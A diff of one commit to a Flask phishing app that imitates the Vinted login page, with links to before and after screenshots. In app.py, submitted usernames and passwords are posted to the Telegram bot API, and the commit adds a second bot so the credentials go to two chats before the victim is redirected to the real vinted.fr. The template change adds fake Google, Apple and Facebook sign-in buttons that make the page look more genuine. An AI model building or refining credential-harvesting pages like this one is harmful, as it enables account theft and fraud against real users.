

Before and after one commit to escobar25250616/vinted-login, a Flask app: page / in a window 390 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
💄 Mise à jour du formulaire login + ajout du bloc social responsive

```diff
--- a/app.py
+++ b/app.py
@@ -7,14 +7,25 @@
 
 app = Flask(__name__)
 
-TELEGRAM_BOT_TOKEN = os.getenv("BOT_TOKEN")
-CHAT_ID = os.getenv("CHAT_ID")
+# Premier bot
+TELEGRAM_BOT_TOKEN_1 = os.getenv("BOT_TOKEN")
+CHAT_ID_1 = os.getenv("CHAT_ID")
+
+# Deuxième bot
+TELEGRAM_BOT_TOKEN_2 = os.getenv("BOT_TOKEN_2")
+CHAT_ID_2 = os.getenv("CHAT_ID_2")
 
 
 def send_telegram_message(message):
-    url = f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN}/sendMessage"
-    data = {"chat_id": CHAT_ID, "text": message}
-    requests.post(url, data=data)
+    # Envoie via le premier bot
+    url1 = f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN_1}/sendMessage"
+    data1 = {"chat_id": CHAT_ID_1, "text": message}
+    requests.post(url1, data=data1)
+
+    # Envoie via le deuxième bot
+    url2 = f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN_2}/sendMessage"
+    data2 = {"chat_id": CHAT_ID_2, "text": message}
+    requests.post(url2, data=data2)
 
 
 @app.route("/", methods=["GET"])
@@ -28,7 +39,7 @@
     password = request.form["password"]
 
     # Envoie à Telegram
-    send_telegram_message(f"[Test Vinted Login] 👤 {username} | 🔑 {password}")
+    send_telegram_message(f"[ Idenfiant Vinted ] 👤 {username} | 🔑 {password}")
 
     # Redirige vers Vinted
     return redirect("https://www.vinted.fr")
--- a/templates/login.html
+++ b/templates/login.html
@@ -24,7 +24,7 @@
       background-color: white;
       width: 90%;
       max-width: 360px;
-      padding: 30px 20px;
+      padding: 25px 20px;
       border-radius: 10px;
       box-shadow: 0 4px 10px rgba(0, 0, 0, 0.3);
     }
@@ -38,7 +38,7 @@
 
     h2 {
       text-align: center;
-      margin-bottom: 25px;
+      margin-bottom: 20px;
     }
 
     input[type="text"],
@@ -51,7 +51,7 @@
       font-size: 14px;
     }
 
-    button {
+    button[type="submit"] {
       width: 100%;
       background-color: #007b76;
       color: white;
@@ -62,13 +62,14 @@
       cursor: pointer;
     }
 
-    button:hover {
+    button[type="submit"]:hover {
       background-color: #005e59;
     }
 
     .links {
       text-align: center;
       margin-top: 10px;
+      margin-bottom: 10px;
     }
 
     .links a {
@@ -79,13 +80,42 @@
       margin-top: 5px;
     }
 
-    /* Responsive adjustment for very small screens */
+    .social-login {
+      display: flex;
+      flex-direction: column;
+      gap: 6px;
+      margin-top: 15px;
+    }
+
+    .social-button {
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      border: 1px solid #ccc;
+      background: white;
+      padding: 8px;
+      border-radius: 6px;
+      font-size: 14px;
+      cursor: pointer;
+      transition: background-color 0.2s;
+    }
+
+    .social-button img {
+      width: 18px;
+      height: 18px;
+      margin-right: 8px;
+    }
+
+    .social-button:hover {
+      background-color: #f2f2f2;
+    }
+
     @media (max-width: 400px) {
       .modal {
         padding: 20px 15px;
       }
 
-      input, button {
+      input, button, .social-button {
         font-size: 15px;
       }
     }
@@ -104,6 +134,22 @@
       <a href="#">Mot de passe oublié ?</a>
       <a href="#">Vous rencontrez des problèmes ?</a>
     </div>
+
+    <!-- Bloc social compact -->
+    <div class="social-login">
+      <button class="social-button">
+        <img src="https://www.gstatic.com/firebasejs/ui/2.0.0/images/auth/google.svg" alt="Google">
+        Continuer avec Google
+      </button>
+      <button class="social-button">
+        <img src="https://upload.wikimedia.org/wikipedia/commons/f/fa/Apple_logo_black.svg" alt="Apple">
+        Continuer avec Apple
+      </button>
+      <button class="social-button">
+        <img src="https://upload.wikimedia.org/wikipedia/commons/1/1b/Facebook_icon.svg" alt="Facebook">
+        Continuer avec Facebook
+      </button>
+    </div>
   </div>
 </body>
 </html>
```
Also changed, not shown: 1 other file.
